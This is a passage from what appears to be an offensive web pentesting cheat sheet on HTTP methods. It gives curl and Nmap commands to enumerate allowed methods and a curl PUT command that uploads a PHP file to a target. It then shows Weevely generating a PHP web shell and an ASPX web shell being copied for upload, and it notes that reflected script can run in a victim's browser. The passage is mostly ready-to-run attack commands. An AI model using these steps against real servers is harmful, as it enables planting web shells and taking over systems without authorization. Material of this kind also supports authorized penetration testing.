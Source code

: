 {% step %}
{% hint style="info" %}
If a web application connected to this server processes and displays the reflected data inside an HTML page, the script may execute in a victim's browser
{% endhint %}
{% endstep %}
{% endstepper %}

***

### Discover the Supported Methods <a href="#discover-the-supported-methods" id="discover-the-supported-methods"></a>

#### [cURL](https://curl.se/)

{% hint style="info" %}
Check Methods
{% endhint %}

```bash
curl -X OPTIONS -I $WEBSITE
```

{% hint style="info" %}
Upload phpinfo()
{% endhint %}

```bash
curl -X PUT -d "<?php phpinfo(); ?>" $WEBSITE/phpinfo.php
```

#### [Nmap](https://nmap.org/)

```bash
nmap -sS -sV --mtu 5000 --script http-methods $WEBSITE
```

### **PUT Method**

#### [Weevely](https://github.com/epinna/weevely3)

{% hint style="info" %}
Create Web Shell PHP
{% endhint %}

```bash
weevely generate 00980098 /tmp/unk9vvn.php
```

{% hint style="info" %}
Create Web Shell ASPX
{% endhint %}

```bash
cp /usr/share/webshells/aspx/cmdasp.aspx /tmp/unk9vvn.aspx
```
